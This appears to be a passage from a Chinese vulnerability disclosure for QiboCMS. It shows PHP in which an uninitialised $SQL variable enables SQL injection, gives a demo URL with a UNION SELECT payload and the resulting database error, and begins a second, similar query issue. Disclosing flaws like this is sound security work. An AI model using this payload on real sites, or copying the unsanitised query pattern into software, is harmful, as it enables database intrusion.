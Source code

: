 ```
} 
```

包含文件进来。

inc/job/ckreg.php 中

```
}elseif($type=='yzimg'){

    if($db->get_one("SELECT * FROM {$pre}yzimg WHERE $SQL imgnum='$name' AND sid='$usr_sid'")){

        die("<img src=$webdb[www_url]/images/default/check_right.gif> <font color=red>验证码输入正确!</font>");

    }else{

        die("<img src=$webdb[www_url]/images/default/check_error.gif>请输入正确的验证码"); 

    } 
```

这里的$SQL 并没有初始化, 结合 qibocms 的全局机制 可以直接控制这个变量 导致注入。

![](img/261616473304ec18777b5ef075dd94d3f260b4eb.jpg)

demo 测试:

[`**.**.**.**/do/job.php?job=ckreg&type=yzimg&SQL=1=1`](http://**.**.**.**/do/job.php?job=ckreg&type=yzimg&SQL=1=1) union select 1%23

数据库连接出错:SELECT * FROM life5_yzimg WHERE 1=1 union select 1# imgnum='' AND sid='1wmqh6ce'

The used SELECT statements have a different number of columns

1222 请输入正确的验证码

* * *

第二个问题

在 wei/member/post.php 中

```
elseif($action=="del")

{

    $rsdb=$db->get_one("SELECT B.*,A.* FROM `{$_pre}content` A LEFT JOIN `{$_pre}content_1` B ON A.id=B.id WHERE A.id='$id'");

    if($rsdb[fid]!=$fidDB[fid]){    

        showerr("栏目有问题");

    }

```